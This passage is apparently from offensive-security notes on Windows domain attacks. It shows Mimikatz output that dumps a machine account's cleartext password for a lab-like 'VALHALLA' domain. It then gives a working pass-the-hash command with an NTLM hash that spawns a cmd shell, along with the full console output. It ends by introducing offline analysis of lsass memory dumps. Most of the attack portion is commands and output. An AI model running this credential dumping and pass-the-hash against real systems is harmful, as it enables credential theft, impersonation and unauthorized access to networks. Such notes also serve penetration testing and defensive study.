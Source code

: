 		 * Domain   : VALHALLA
		 * Password : [:2vH;zH;7:r5PFCpinFuTxF(h90)u7l]H'ieAt'KQ32YEU\4EpM3xLbILI;O\?0?8B6Biq?r&zzB(OeGa7li\3SOLLw+@AlCnqi7HF\UC4id)U++!=Djd_M
		kerberos :	
		 * Username : thor$
		 * Domain   : VALHALLA.LOCAL
		 * Password : [:2vH;zH;7:r5PFCpinFuTxF(h90)u7l]H'ieAt'KQ32YEU\4EpM3xLbILI;O\?0?8B6Biq?r&zzB(OeGa7li\3SOLLw+@AlCnqi7HF\UC4id)U++!=Djd_M
		ssp :	
		credman :	


Pash-the-Hash machine NTLM hash and spawn a CMD


	mimikatz # sekurlsa::pth /user:thor$ /domain:valhalla.loal /ntlm:f7e21314c3fb5d1c48a2d9d5b42b552c
	user	: thor$
	domain	: valhalla.loal
	program	: cmd.exe
	impers.	: no
	NTLM	: f7e21314c3fb5d1c48a2d9d5b42b552c
	  |  PID  1152
	  |  TID  752
	  |  LSA Process is now R/W
	  |  LUID 0 ; 2116305 (00000000:00204ad1)
	  \_ msv1_0   - data copy @ 000000000184D290 : OK !
	  \_ kerberos - data copy @ 000000000185DD68
	   \_ aes256_hmac       -> null             
	   \_ aes128_hmac       -> null             
	   \_ rc4_hmac_nt       OK
	   \_ rc4_hmac_old      OK
	   \_ rc4_md4           OK
	   \_ rc4_hmac_nt_exp   OK
	   \_ rc4_hmac_old_exp  OK
	   \_ *Password replace @ 00000000018FEF78 (16) -> null


![image](https://user-images.githubusercontent.com/13157446/129442879-3f6bdbfe-b0c9-45ed-8ed6-39331d5f2a77.png)

regular cmd shell (access denied)

![image](https://user-images.githubusercontent.com/13157446/129442954-661ab321-9c6b-4a35-9d6f-48e21d0821d1.png)


# Credential Collection

## mimikatz lsass.DMP local analyze

if we cant run mimikatz on target machine, we can get dump of lsass process and analyze local computer.
